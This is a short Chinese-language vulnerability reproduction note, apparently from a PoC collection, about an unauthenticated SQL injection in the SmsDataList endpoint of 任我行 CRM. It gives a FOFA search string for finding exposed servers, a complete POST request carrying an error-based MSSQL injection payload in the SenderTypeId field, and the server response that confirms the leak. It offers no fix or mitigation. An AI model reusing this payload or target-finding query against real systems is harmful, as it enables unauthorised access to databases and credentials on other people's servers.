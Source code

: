 ##### 一、 产品简介
```
 任我行CRM（Customer Relationship Management）是一款专业的企业级CRM软件，旨在帮助企业有效管理客户关系、提升销售效率和提供个性化的客户服务。
```
##### 二、 漏洞概述
```
任我行 CRM SmsDataList 接口处存在SQL注入漏洞，未经身份认证的攻击者可通过该漏洞获取数据库敏感信息及凭证，最终可能导致服务器失陷。
```
##### 三、 复现环境
```
FOFA语法：“欢迎使用任我行CRM”
```
##### 四、 漏洞复现
poc
```
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: your-ip
 
Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=0000000000'and 1=convert(int,(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123456')))) AND 'CvNI'='CvNI

```
```
HTTP/1.1 200 OK
Cache-Control: private
Content-Length: 161
Content-Type: application/json; charset=utf-8
Server: WWW Server/1.1
X-AspNetMvc-Version: 4.0
X-Safe-Firewall: zhuji.360.cn 1.0.9.47 F1W1
Date: Tue, 15 Aug 2023 18:24:11 GMT
Connection: close

{"error":{"errorCode":-1,"message":"在将 nvarchar 值 '0xe10adc3949ba59abbe56e057f20f883e' 转换成数据类型 int 时失败。","errorType":1},"value":null}

```
burpsuite图
![image.png](https://cdn.nlark.com/yuque/0/2024/png/40540518/1718630499985-90e44dd1-4cbe-4e58-ad63-db008160e237.png#averageHue=%23faf9f9&clientId=ue87627f0-4c89-4&from=paste&height=589&id=u19b5ea3f&originHeight=736&originWidth=1220&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=121426&status=done&style=none&taskId=u634f89ce-4f95-4c92-ac55-f0147be9717&title=&width=976)
